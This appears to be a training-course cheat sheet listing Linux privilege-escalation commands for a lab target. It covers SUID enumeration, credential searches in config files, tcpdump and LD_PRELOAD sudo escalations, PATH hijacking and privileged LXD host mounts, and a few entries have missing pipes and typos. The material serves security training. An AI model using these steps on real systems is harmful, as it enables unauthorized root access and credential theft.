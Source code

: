 | **Command** | **Description** |
| --------------|-------------------|
| `ssh htb-student@<target IP>` | SSH to lab target |
| `ps aux \| grep root` | See processes running as root |
| `ps au` | See logged in users |
| `ls /home` | View user home directories |
| `ls -l ~/.ssh` | Check for SSH keys for current user |
| `history` | Check the current user's Bash history |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs |
| `lsblk` | Check for unmounted file systems/drives |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writeable directories |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writeable files |
| `uname -a` | Check the Kernel versiion |
| `cat /etc/lsb-release ` | Check the OS version |
| `gcc kernel_expoit.c -o kernel_expoit` | Compile an exploit written in C |
| `screen -v` | Check the installed version of `Screen` |
| `./pspy64 -pf -i 1000` | View running processes with `pspy` |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump` |
| `echo $PATH` | Check the current user's PATH variable contents |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH |
| `cat wp-config.php grep 'DB_USER\\|DB_PASSWORD'` | Search the user and password in the wordpress database |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files |
| `ldd /bin/ls` | View the shared objects required by a binary |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using `LD_PRELOAD` |
| `readelf -d payroll  \| grep PATH` | Check the RUNPATH of a binary |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compiled a shared libary |
| `lxd init` | Start the LXD initialization process |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container |
| `lxc start r00t` | Start the container |
| `showmount -e 10.129.2.12` | Show the NFS export list |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally |
| `tmux -S /shareds new -s debugsess` | Created a shared `tmux` session socket |
| `./lynis audit system` | Perform a system audit with `Lynis` |
| `netstat -antp grep LISTEN` | enumerate open ports |
